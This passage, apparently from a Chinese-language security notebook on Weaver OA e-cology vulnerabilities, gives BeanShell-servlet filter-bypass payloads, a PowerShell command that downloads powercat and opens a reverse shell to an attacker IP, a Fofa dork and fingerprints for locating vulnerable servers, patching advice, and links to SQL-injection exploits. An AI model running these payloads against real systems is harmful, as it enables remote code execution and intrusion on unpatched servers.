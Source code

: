**7\. 利用技巧**

1\. 其他形式绕过

`eval%00("ex"%2b"ec(\"whoami\")");` 也可以换成 `ex\u0065c("cmd /c dir");`

2\. 泛微多数都是 windows 环境, 反弹 shell 可以使用 pcat

`powershell IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c ip -p 6666 -e cmd`

**8\. 防护方法**

1\. 及时更新泛微补丁

2\. 拦截`/weaver/bsh.servlet.BshServlet`目录的访问

泛微 OA e-cology SQL 注入漏洞
-----------------------

**1\. 漏洞简介**

泛微 OA 在国内的用户很多, 漏洞以前也很多, 但现在在漏洞盒子托管了企业 SRC [https://weaversrc.vulbox.com/](https://weaversrc.vulbox.com/), 情况有所好转

**2\. 影响组件**

泛微 OA

**3\. 漏洞指纹**

`Set-Cookie: ecology_JSessionId=`

`ecology`

`WorkflowCenterTreeData`

`/mobile/plugin/SyncUserInfo.jsp`

**4\. Fofa Dork**

`app="泛微-协同办公OA"`

**5\. 漏洞分析**

泛微 OA WorkflowCenterTreeData 接口注入漏洞 (限 oracle 数据库) – 先知社区  
[https://xz.aliyun.com/t/6531](https://xz.aliyun.com/t/6531)

**6\. 漏洞利用**

泛微 OA e-cology WorkflowCenterTreeData 前台接口 SQL 注入漏洞复现_数据库_小龙人 - CSDN 博客  
[https://blog.csdn.net/zycdn/article/details/102494037](https://blog.csdn.net/zycdn/article/details/102494037)

Tentacle/ecology8\_mobile\_sql\_inject.py at 6e1cecd52b10526c4851a26249339367101b3ca2 · orleven/Tentacle  
[https://github.com/orleven/Tentacle/blob/6e1cecd52b10526c4851a26249339367101b3ca2/script/ecology/ecology8\_mobile\_sql\_inject.py](https://github.com/orleven/Tentacle/blob/6e1cecd52b10526c4851a26249339367101b3ca2/script/ecology/ecology8_mobile_sql_inject.py)

应用安全 – 软件漏洞 – 泛微 OA 漏洞汇总 – AdreamWillB – 博客园  
[https://www.cnblogs.com/AtesetEnginner/p/11558469.html](https://www.cnblogs.com/AtesetEnginner/p/11558469.html)
